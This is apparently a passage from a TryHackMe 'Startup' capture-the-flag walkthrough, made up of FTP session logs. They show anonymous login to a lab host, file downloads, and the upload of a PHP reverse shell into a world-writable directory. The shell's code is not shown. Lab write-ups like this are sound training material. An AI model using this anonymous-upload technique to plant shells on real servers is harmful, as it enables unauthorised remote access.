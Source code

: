 ```
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> mget *
mget ftp?
200 PORT command successful. Consider using PASV.
550 Failed to open file.
mget important.jpg?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.59 secs (417.2951 kB/s)
mget notice.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (140.4737 kB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
226 Directory send OK.
ftp>
```

`but Maya is looking pretty sus.`

```
kali@kali:~/CTFs/tryhackme/Startup$ ftp 10.10.36.184
Connected to 10.10.36.184.
220 (vsFTPd 3.0.3)
Name (10.10.36.184:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (67.1729 MB/s)
ftp> exit
```